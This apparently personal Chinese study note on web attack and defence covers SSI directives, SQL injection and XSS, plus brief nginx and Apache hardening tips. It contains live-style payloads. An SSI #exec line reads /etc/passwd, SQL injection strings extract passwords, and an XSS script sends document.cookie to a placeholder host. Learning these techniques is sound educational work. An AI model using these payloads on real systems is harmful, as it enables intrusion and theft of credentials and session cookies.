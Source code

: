```yaml
---
title: web攻防相关知识
date: 2021-09-23 15:38:01
tags: [网络]
categories: [Program, Web]
---
```


# 前言

记录一些攻防相关的web知识

**学习网站**

- (hackthissite)[https://www.hackthissite.org/] + Baidu

# 一、特定语言的攻防

## 1. shtml 可以执行SSI指令的前端页面

参考链接: [HTML语言SSI指令语法](https://blog.csdn.net/dadou2007/article/details/2521365)

### 1.1. 攻

#### SSI指令

SSI（Server Side Include），当客户端访问这些shtml文件时，服务器端会把这些SHTML文件进行读取和解释，把SHTML文件中包含的SSI指令解释出来比如：你可以在SHTML文件中用SSI指令引用其他的html文件（#include ），服务器传送给客户端的文件，是已经解释的SHTML不会有SSI指令。它实现了HTML所没有的功能，就是可以实现了动态的SHTML，可以说是HTML的一种进化吧。像新浪的新闻系统就是这样的，新闻内容是固定的但它上面的广告和菜单等就是用#include引用进来的

目前，主要有以下几种用用途：

1. 显示服务器端环境变量<#echo>
2. 将文本内容直接插入到文档中<#include>
3. 显示WEB文档相关信息<#flastmod #fsize> (如文件制作日期/大小等)
4. 直接执行服务器上的各种程序<#exec>(如CGI或其他可执行程序)
5. 设置SSI信息显示格式<#config>(如文件制作日期/大小显示方式)

高级SSI`<XSSI>`可设置变量使用if条件语句。

##### 几种ssi指令实例和解析

**#include**

- file: 文件名是一个相对路径，该路径相对于使用 #include 指令的文档所在的目录。被包含文件可以在同一级目录或其子目录中，但不能在上一级目录中。如表示当前目录下的的nav_head.htm文档，则为file="nav_head.htm"。
- virtual: 文件名是 Web 站点上的虚拟目录的完整路径。如表示相对于服务器文档根目录下hoyi目录下的nav_head.htm文件；则为file="/hoyi/nav_head.htm"

```html
<!--#include file="info.htm"-->
<!--#include virtual="文件名称"-->
```

**#echo**

```html
本文档名称
<!--#echo var="DOCUMENT_NAME"-->

现在时间
<!--#echo var="DATE_LOCAL"-->

你的IP地址
<!--#echo var="REMOTE_ADDR"-->
```

**#flastmod和#fsize**

- flastmod: 上次更改时间
- fsize: 文件大小

```html
<!--#flastmod file="文件名称"-->
<!--#fsize file="文件名称"-->
```

**#exec**

```html
<!--#exec cmd="cat /etc/passwd"-->          将会显示密码文件
<!--#exec cmd="dir /b"-->                   将会显示当前目录下文件列表
<!--#exec cgi="/cgi-bin/gb.cgi"-->          将会执行CGI程序gb.cgi
```

### 1.2. 防

- 需要在web服务端配置拦截

**nginx配置**

[参考链接](https://blog.csdn.net/qq_33616529/article/details/79061608)

需要的选项主要是以下三个：
- `ssi`: 默认值off，启用ssi时将其设为on
- `ssi_silent_errors`: 默认值off，开启后在处理SSI文件出错时不输出错误提示"[an error occurred while processing the directive]"。
- `ssi_types`: 默认是text/html，所以如果需支持html，则不需要设置这句，如果需要支持shtml则需要设置：`ssi_types` text/shtml
三个参数可以放在http, server或location作用域下。

## 2. sql

### 2.1. 攻

- 一般对于sql注入，使用`' or 1=1; #`
- `'`结束前面的参数引号
- `or 1=1`令整个where失效
- `;`作为结束
- `#`或者`--`将后续的字符串变成注释
- `order by [n]`可以使用n（从1开始）来判断数据库一共有几列，大于某个n会报错，就证明有n列
- `select * from table1 union select 1,2,passwd,4,5 from table2`: 使用union联表可以将另一个表的数据查出来拼接到整体数据中

## 3. js

### 3.1. 攻

#### (1) XSS跨站攻击

XSS攻击通常指的是通过利用网页开发时留下的漏洞，通过巧妙的方法注入恶意指令代码到网页，使用户加载并执行攻击者恶意制造的网页程序。这些恶意网页程序通常是JavaScript，但实际上也可以包括Java、 VBScript、ActiveX、 Flash 或者甚至是普通的HTML。攻击成功后，攻击者可能得到包括但不限于更高的权限（如执行一些操作）、私密网页内容、会话和cookie等各种内容。

参考链接: [浅谈XSS攻击的那些事（附常用绕过姿势）](https://zhuanlan.zhihu.com/p/26177815)

**示例1: cookie劫持**

- 通过html注入实现窃取cookie
- 如果页面直接将输入的值没有做转移展示在页面上，可以触发注入
- 页面打开后，会立即请求`http://xxx.xxx.xxx?[cookie_of_current]`，将当前页面的cookie发送给了一个网址

```html
<script>window.location.href="http://xxx.xxx.xxx?"+document.cookie;</script>
```

**示例2: 页面劫持**

- 通过html注入实现打开此网页自动跳转另一个页面

```html
<script>window.location.href="http://xxx.xxx.xxx";</script>
```

**示例3: 通过可植入代码的标签劫持**

```html
<!-- 图片加载失败做操作 -->
<img src='w.123' onerror='alert("hey!")'>
<!-- 鼠标移动做操作 -->
<a onmousemove="alert('hey')"></a>
<!-- 鼠标移动到块上做操作 -->
<div onmouseover="alert('hey')"></div>
```

# 二、特定软件的攻防

## 1. apache

### 1.1. htaccess

[参考链接](https://baike.baidu.com/item/htaccess/1645473?fr=aladdin)

#### 1.1.1. 攻

#### 1.1.2. 防

关闭htaccess功能，需要修改httpd.conf，设置`AllowOverride none`，将会忽略所有的`.htaccess`配置

# 三、通用知识

## 1. 防止谷歌抓取页面

- 一般会在网站根目录放上一个`robots.txt`，里面定义了哪些目录不允许抓取
